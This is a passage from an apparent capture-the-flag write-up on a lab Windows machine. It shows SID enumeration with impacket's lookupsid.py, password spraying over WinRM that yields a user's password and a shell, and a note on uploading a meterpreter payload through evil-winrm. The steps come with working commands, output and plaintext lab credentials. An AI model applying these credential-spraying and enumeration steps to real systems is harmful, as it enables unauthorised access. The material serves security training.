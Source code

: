 Trying all the possible combination won't give up a shell. We need more
enumeration. We launch
[impacket's lookupsid](https://github.com/SecureAuthCorp/impacket/) using the
different user/password combinations. One is working with the Hazard user and
the `stealth1agent` password:

    :::text
    python lookupsid.py Hazard:stealth1agent@10.10.10.149
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] Brute forcing SIDs at 10.10.10.149
    [*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
    [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
    500: SUPPORTDESK\Administrator (SidTypeUser)
    501: SUPPORTDESK\Guest (SidTypeUser)
    503: SUPPORTDESK\DefaultAccount (SidTypeUser)
    504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
    513: SUPPORTDESK\None (SidTypeGroup)
    1008: SUPPORTDESK\Hazard (SidTypeUser)
    1009: SUPPORTDESK\support (SidTypeUser)
    1012: SUPPORTDESK\Chase (SidTypeUser)
    1013: SUPPORTDESK\Jason (SidTypeUser)

We have more users now! We can eliminate the `stealth1agent` password as this is
Hazard's password.
A few combination later using winrm, we discover that the user Chase use the
`Q4)sJu\Y8qz*A3?d` password. We have a shell and the user flag:

    :::text
    ruby winrm.rb
    PS > whoami
    supportdesk\chase
    PS > dir ../Desktop


        Directory: C:\Users\Chase\Desktop


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        4/22/2019   9:08 AM            121 todo.txt
    -a----        4/22/2019   9:07 AM             32 user.txt


    PS > type ../Desktop/user.txt
    a127d<redacted>
    PS > type ../Desktop/todo.txt
    Stuff to-do:
    1. Keep checking the issues list.
    2. Fix the router config.

    Done:
    1. Restricted access for guest user.

We can upload a meterpreter (generated with msfvenom) using
[evil winrm](https://github.com/Hackplayers/evil-winrm)
